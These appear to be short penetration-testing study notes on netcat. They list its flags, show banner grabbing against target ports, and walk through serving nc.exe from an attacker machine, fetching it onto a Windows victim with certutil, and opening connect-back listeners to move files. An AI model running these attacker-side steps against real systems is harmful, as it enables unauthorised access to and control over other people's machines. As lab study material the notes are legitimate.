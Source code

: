 

- -v verbose 
- -u UDP port 
- -l listen
- -n do not resolve hostname via DNS 
- -e execute commands

- nc target-ip 80
- nc -nv target-ip 80 (no DNS resolution + verbose = banner grabbing)
- nc -nv target-ip 22 or 21 
- nc -nvu targetip 445 (connect udp)

- we want to transfer file nc.exe to target system 
- cd /usr/share/windows-binaries/ (attacker)
- python -m SimpleHTTPServer 80 (host web server) (attacker)
- open CMD: certutil -urlcache -f http:// LHOST/nc.exe nc.exe (victim)
- setup listner in our kali
	- nc -lvnp 1234 (attacker)
- get back to target machine
- connect via nc.exe
	- open CMD: nc.exe -nv LHOST 1234 (victim)
- then we can reverse open a listener on target system with nc.exe port 1234
- and connect with our system with RHOST IP
- we can send file from attack to target
	- we make file called test.txt with vim
		- vim test.txt (attacker)
	- on our machine we setup nc to send file (attacker)
		- nc -nv target-ip 1234 < test.txt
	- we prepare our listener in target system to download file (victim)
		- nc.exe -lvnp 1234 > test.txt
	- 
	- file should be transferd
